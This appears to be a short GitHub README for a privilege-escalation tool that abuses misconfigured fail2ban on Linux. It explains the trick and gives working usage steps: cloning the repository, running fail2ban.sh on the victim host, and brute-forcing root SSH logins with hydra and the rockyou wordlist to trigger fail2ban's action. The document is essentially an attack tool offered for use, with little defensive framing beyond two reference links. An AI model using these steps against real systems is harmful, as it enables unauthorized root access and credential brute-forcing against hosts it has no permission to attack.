 
# Privilege Escalation via fail2ban
In Linux, fail2ban is mostly used to protect the SSH service. 
If the daemon detects several unsuccessful ssh login attempts, it executes a command that blocks the IP address.
So misconfigurations can lead to privilege escalation.

![alt text](https://github.com/rvizx/fail2ban/blob/main/imgage.png?raw=true)

# Usage
```
git clone https://github.com/rvizx/fail2ban
```

@victim
```
chmod +x fail2ban.sh
./fail2ban.sh
```

@attacker
```
hydra <ip-addr> -l root -P /usr/share/wordlists/rockyou.txt ssh
```

# Notes
https://youssef-ichioui.medium.com/abusing-fail2ban-misconfiguration-to-escalate-privileges-on-linux-826ad0cdafb7 <br>
https://grumpygeekwrites.wordpress.com/2021/01/29/privilege-escalation-via-fail2ban/

